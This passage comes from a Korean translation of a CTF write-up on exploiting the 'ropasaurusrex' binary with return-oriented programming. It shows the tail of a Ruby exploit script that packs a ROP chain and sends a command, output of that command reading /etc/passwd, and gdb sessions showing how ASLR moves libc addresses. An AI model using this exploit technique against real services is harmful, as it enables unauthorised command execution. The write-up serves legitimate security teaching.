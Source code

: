``` ruby
    0,           # stdin
    pppr_addr,   # read()'s return address

    read_addr # Overwrite the original return
  ].reverse.pack("I*") # Convert a series of 'ints' to a string

# Write the 'exploit' payload
s.write(payload)

# When our payload calls read() the first time, this is read
s.write(cmd)

# Read the response from the command and print it to the screen
puts(s.read)

# Clean up
s.close()
```

그리고 실행하게 되면, 예상대로 나온다:

``` sh
$ ruby sploit.rb "cat /etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
...
```

그리고 [코어 덤프][core dump]를 보면, 예상한 대로 `0x44444444`에서 크래시를 일으킨다.

[core dump]: https://en.wikipedia.org/wiki/Core_dump

끝났다, 그렇지?

실은 틀렸다!

이 익스플로잇은 내 테스트 기기에서 완벽하게 작동하지만, ASLR이 적용되었다면 실패한다:

``` sh
$ sudo sysctl -w kernel.randomize_va_space=1
kernel.randomize_va_space = 1
ron@debian-x86 ~ $ ruby sploit.rb "cat /etc/passwd"
```

여기서부터 조금 더 복잡해진다. 가보자!

## <a id="what-is-aslr"></a>ASLR이 뭐야?

ASLR---주소 공간 레이아웃 불규칙화(address space layout randomization)---은 현대 시스템(FreeBSD는 제외)에 구현된 방어 기법으로, 라이브러리가 로드 되는 주소를 불규칙화 한다. 그 예로, ropasaurusrex를 두 번 실행하고 `system()`의 주소를 알아내 보자:

``` sh
ron@debian-x86 ~ $ perl -e 'printf "A"x1000' | ./ropasaurusrex
Segmentation fault (core dumped)
ron@debian-x86 ~ $ gdb ./ropasaurusrex core
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()
(gdb) x/x system
0xb766e450 <system>:    0x890cec83

ron@debian-x86 ~ $ perl -e 'printf "A"x1000' | ./ropasaurusrex
Segmentation fault (core dumped)
ron@debian-x86 ~ $ gdb ./ropasaurusrex core
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()
(gdb) x/x system
0xb76a7450 <system>:    0x890cec83
```


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://blog.skullsecurity.org/wiki/index.php/The_Stack
[^1]: 링크가 [바뀌었다](https://wiki.skullsecurity.org/Assembly).
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment